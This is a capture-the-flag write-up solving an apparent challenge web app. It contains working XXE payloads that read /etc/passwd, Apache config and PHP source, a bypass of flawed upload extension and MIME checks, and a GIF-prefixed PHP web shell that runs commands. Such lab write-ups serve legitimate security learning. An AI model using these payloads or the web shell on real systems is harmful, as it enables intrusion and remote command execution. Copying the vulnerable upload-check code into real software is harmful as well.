

## Anonymous - Solution


When we submit the form, the data is sent to the backend in XML format. And data we submit (name) is returned.

As XML is used, we could try checking if its vulnarable to XML external entity (XXE) injection.

### Reading /etc/passwd

To send a request, you can use Burp Suite repeater or firefox dev tools itself. Here I'll be using firefox dev tools.

The send body was..
```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
  <name>hello</name>
  <email>a@a.com</email>
</root>
```

New payload with XXE
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>
  <name>&xxe;</name>
  <email>a@a.com</email>
</root>
```


Bingo!... We were able to read /etc/passwd. This confirms that the website is vulnerable to XXE injection.

To understand more about the website, we can try to read the web files. For that we need to know the directory in which the web app files are kept.

Checking the server config files is a good start.

```
HTTP/1.1 200 OK
Date: Fri, 03 Oct 2025 10:16:25 GMT
Server: Apache/2.4.65 (Debian)
X-Powered-By: PHP/8.2.29
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 335
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
```

By checking the response headers, we can conclude that the HTTP server used is apache2.

The location of default site config file in Apache2 is
```
/etc/apache2/sites-available/000-default.conf
```

Using the XXE injection vulnerability, we can read this file.

Payload to read the file

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/apache2/sites-available/000-default.conf"> ]>
<root>
  <name>&xxe;</name>
  <email>a@a.com</email>
</root>
```


Yep, we got the file. Now decode it to view its contents.


By looking at the config file, we can see a vhost with the name `anonupload.cyberquest`. With the document root at `/var/www/anonupload.cyberquest`

add the server name & ip to you hosts file.

```bash
echo "35.200.207.70 anonupload.cyberquest" | sudo tee -a /etc/hosts
```

Now we can visit the site by going to `http://anonupload.cyberquest/`

On visiting the website, its asking for a password. We can use the XXE injection vuln to read the index.php for the new website we found.

XXE payload
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/anonupload.cyberquest/index.php"> ]>
<root>
  <name>&xxe;</name>
  <email>a@a.com</email>
</root>
```

Get the base64 and decode it.

```php
    if (isset($_POST['password']) && $_POST['password'] === "supersecret1234564_niceeeee132213") {
        $_SESSION['auth'] = true;
        $message = "Login successful!";
        $message_type = "success";
    }
```

Now we got the password for logging in
`supersecret1234564_niceeeee132213`

Once logged in, we are greeted with a file uload page.

Looking at the php code, we can see multiple security methods implemented to prevent file upload vulnerabilities.

1) Checking the extension
```php
$ALLOWED = ['png', 'jpeg', 'gif', 'pdf', 'zip'];

function is_valid_extension($filename) {
    global $ALLOWED;
    $ext = explode('.', $filename)[1];
    foreach ($ALLOWED as $allowed_ext) {
        if (stripos($ext, $allowed_ext) !== false) {
            return true;
        }
    }
    return false;
}
```
By looking at the code we can see a flaw. The code splits the filename based on `.`. and takes the string at 1st index to extension checking.

So a filename with `shell.php` will get rejected but a filename with `shell.gif.php` will pass this check. As the sting at 1st index after splitting is `gif`.

2) Checking MIME type
```php
    if (isset($_FILES['file']) && $_SESSION['auth'] === true) {
        $file = $_FILES['file'];
        $filename = $file['name'];
        $tmpname = $file['tmp_name'];
        $mime = mime_content_type($tmpname);

        $allowed_mimes = [
            'image/png',
            'image/jpeg',
            'image/gif',
            'application/zip',
            'application/pdf'
        ];

        if (!in_array($mime, $allowed_mimes)) {
            $message = "Invalid MIME type!";
            $message_type = "error";
        } elseif (!is_valid_extension($filename)) {
            $message = "Invalid file extension!";
            $message_type = "error";
        } else {
            $ext = pathinfo($filename, PATHINFO_EXTENSION);
            $newname = bin2hex(random_bytes(8)) . '.' . $ext;
            move_uploaded_file($tmpname, "uploads/" . $newname);
            $message = "File uploaded successfully: /uploads/$newname";
            $message_type = "success";
        }
    }
```

Here the MIME type of the file is checked. To trick the system, we can use a GIF header (image/gif is an allowed MIME type) at top our of php code to bypass this check.

## Exloiting the Upload vuln

Now we know how to bypass the two security checks. So lets create a php code that will hel us run commands on the system.

Create a file named `shell.gif.php` and the GIF magic bytes at top of the file. (GIF89a)

```php
GIF89a;
<?php system($_GET['cmd']); ?>
```

Lets upload this file.


It got uploaded. Now we can run system commands and get the flag.



